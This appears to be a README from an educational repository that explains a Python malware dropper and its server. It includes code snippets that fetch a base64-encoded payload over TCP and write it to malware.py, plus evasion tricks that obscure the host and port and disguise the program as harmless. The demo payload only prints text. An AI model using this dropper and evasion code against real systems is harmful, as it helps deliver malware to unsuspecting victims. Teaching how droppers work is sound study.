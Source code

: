 # Dropper

Our **dropper** is implemented in the file `dropper.py`. It tries to download some malicious code from a remote server and ideally avoid any detection. The server is implemented in the file `server.py` and sends the malicious payload to the targeted system as soon as the dropper requests a connection. Received payload is dumped into the file and the malware was successfully delivered.

#### Demonstration of behavior

The first thing that the attacker must do is to set up a server that distributes malware to its clients. Therefore, we will set up a running server on our computer by running `./server.py`. You should see the following text:
```
DEBUG:user:Server was successfully initialized.
```
In the second console, execute the **dropper** as a victim with the command `./dropper.py`. We should immediately see the following text on the attacker's console:
```
Connection with dropper established from ('127.0.0.1', 46682)
```
and the server shuts down. This means that our client has successfully connected to our server.

To verify that the dropper has served its purpose, list the directory where the dropper is located and you will see that a new file `malware.py` has been created. For demostration purposes, the "malicious" code is just a simple command to print short text. Execute the file by running `python malware.py`. After doing so, you should see the following text:
```
Hello there
```

Creation of basic **dropper** is very simple process as it is described below and anyone can do it just with the basic knowledge of programming and understandment of operating systems. That's why we should be always cautious when we execute any uncommon or not trusted file.

#### How does it work?

##### Server

- Firstly, we create our **server** that should send malicious code to a running **dropper** client executed
  by the victim. The server will listen on the specific port that must be the same as is the one used by our **dropper**.
  In this example, both the **server** and **dropper** will be executed on the same computer, but the
  **server** might be remote and located anywhere in the world.
  ```python
  server = Server(27000)
  ```
  Communication is realized via **TCP** protocol specified by `socket.SOCK_STREAM` (To learn more about network protocols see [the guide to network communication](https://support.holmsecurity.com/hc/en-us/articles/212963869-What-is-the-difference-between-TCP-and-UDP-). <br>
  ```python
  self._socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  ```

- Then we need to initialize the server by binding it to the specified port.
  ```python
  server.initialize()
  ```
- We can observe the malicious command that should be send to the dropper. In this case, it's just a simple command to print some text.
  ```python
  @property
  def malware_code(self):
      return b'print("Hello there")'
  ```
- The most important part is the connection with the victim. This is implemented in the _send_malicious_code_  function provided by the **server**. It waits for the connection initiated by the **dropper** after its execution on the victim's system. It then simply sends the payload and terminates the connection.
  ```python
    with connection:
        print('Connection with dropper established from {}'.format(address))
        # Send data to the client and close the server.
        encoded_payload = base64.b64encode(self.malicious_code)
        connection.send(encoded_payload)
  ```
- The first attempt to prevent detection is coming and it's encryption of the malicious code. What if someone sees everything we send over the network? If so, our malicious code might be detected immediately and  communication stopped or the victim will be notified. That's why we use at least some layer of encryption. For demonstration, we can use basic encoding **base64**. To learn more about **base64** see [the guide to base64](https://blogs.oracle.com/rammenon/base64-explained).
  ```python
  encoded_payload = base64.b64encode(self.malicious_code)
  ```

##### Dropper (client)

- Firstly, we must initialize our **dropper**. This service requires a name of the host (server) and the
  specified port for communication. A host named `localhost` means that the server is listening on the same
  system as our client. A second attempt is made to avoid detection. What if someone glanced over the code of our dropper and spots some suspicious address? Or maybe our victim scans the files for possible port numbers and if the number `27000` is displayed, they might suspect something. We have to hide this data somehow, so we pass some innocent looking arguments.

  ```python
  dropper = Dropper('tsoh', 'lacol', 729000000)
  ```
- If someone inspects the code, they can see the methods for network communication. However, based on the arguments passed to our dropper it's not clear with whom and which port will be used (maybe `729000000`?). We can construct the necessary connection attributes dynamically during runtime. Method _decode\_hostname_ takes two strings, switches their order and reserses them. From the first two arguments passed to our dropper we suddenly get the string `localhost`. And to get the port, we can simply calculate the square root from the last argument. Easy to do, but harder to detect.
  ```python
  def decode_hostname(self, str1, str2):
      """ Constructs the hostname of remote server. """
      return str2[::-1] + str1[::-1]

  def decode_port(self, port):
      """Constructs the port of remote server. """
      return int(math.sqrt(port))
  ```

- Now, we try to connect to the server. This connection should remain hidden from the victim. The logged message is presented only so that we can detect any errors in our example.
  ```python
  try:
      self.socket.connect((self.host, self.port))
  except socket.error:
      logging.debug('Dropper could not connect to the server.')
      return
  ```

- Then the **dropper** tries to greet the victim as a harmless program.
   ```python
   # Try to act as an ordinary application.
   print(
       'Hello, this is a totally ordinary app. '
       'I\'m surely not doing anything malicous'
   )
   ```
-  In the meantime, the client will try to receive the malicious code from the remote server. Remember that the data are encrypted using Base64, so we have to decode them and we have successfully downloaded the malware.
   ```python
   # Receive the malicious code in the encrypted form.
   command = self.socket.recv(1000)
   # Decode the malicious payload and dump it into a file.
   decode_payload = base64.b64decode(command)
   ```
- The last thing left is to either execute the retrieved code or simply write it into a file. The payload was successfully delivered to the target system by doing so.
  ```python
  with open('malware.py', 'wb') as file:
      file.write(data)
  ```